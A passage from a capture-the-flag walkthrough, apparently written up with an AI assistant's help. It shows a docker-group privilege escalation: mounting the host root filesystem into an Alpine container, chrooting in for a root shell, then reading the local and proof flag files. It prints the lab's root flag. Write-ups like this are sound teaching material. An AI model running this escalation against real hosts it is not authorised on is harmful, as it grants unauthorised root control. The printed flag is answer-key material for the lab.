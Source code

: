 ```abap
echo "Welcome Anurodh!";
```

So now we ssh using his name and password.

---

## PrivEsc via Docker group (`/var/run/docker.sock`)

### Summary

I confirmed the user `anurodh` is in the `docker` group. Membership in this group lets me talk to the Docker daemon and mount the host filesystem into a container. I launched a container with the host `/` mounted at `/mnt`, then `chroot`’d into it for a root shell on the host. From there, I read `local.txt` and `proof.txt`.

### Steps

```bash
# Confirm my identity and group membership (docker group present)
id
# uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)

# See what images are already cached locally (helpful if pulls are blocked)
docker images

# Shell as root on the host via Docker: mount host / at /mnt and chroot into it
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

### Verification and loot (inside the chrooted shell)

```bash
# Verify effective control on the host
whoami

# Read flags
cat /home/apaar/local.txt
cat /root/proof.txt
```

> {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}

---

Do you want me to now go back and **retrofit your older write-ups** (like TakeOver, Cage, Skynet, etc.) into this same “everything included, no trimming” style — so your GitHub repo has consistent full-detail posts?
